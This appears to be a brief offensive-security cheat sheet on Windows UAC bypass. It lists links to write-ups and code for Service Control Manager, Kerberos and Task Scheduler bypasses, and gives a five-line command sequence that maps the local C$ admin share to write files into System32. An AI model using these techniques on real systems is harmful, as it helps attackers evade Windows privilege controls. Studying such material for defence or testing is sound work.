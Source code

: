


## SCM UAC Bypass

- [https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html](https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html)
- [https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)
- [https://github.com/wh0amitz/KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)




## Task Scheduler

- [https://www.zcgonvh.com/post/Advanced_Windows_Task_Scheduler_Playbook-Part.2_from_COM_to_UAC_bypass_and_get_SYSTEM_dirtectly.html](https://www.zcgonvh.com/post/Advanced_Windows_Task_Scheduler_Playbook-Part.2_from_COM_to_UAC_bypass_and_get_SYSTEM_dirtectly.html)
- [https://github.com/zcgonvh/TaskSchedulerMisc/blob/master/schuac.cs](https://github.com/zcgonvh/TaskSchedulerMisc/blob/master/schuac.cs)




## Tricks

Bypass UAC for file read/write:

```
Cmd > net use A: \\127.0.0.1\C$
Cmd > A:
Cmd > cd \Windows\System32
Cmd > echo test > test.txt
Cmd > dir test.txt
```
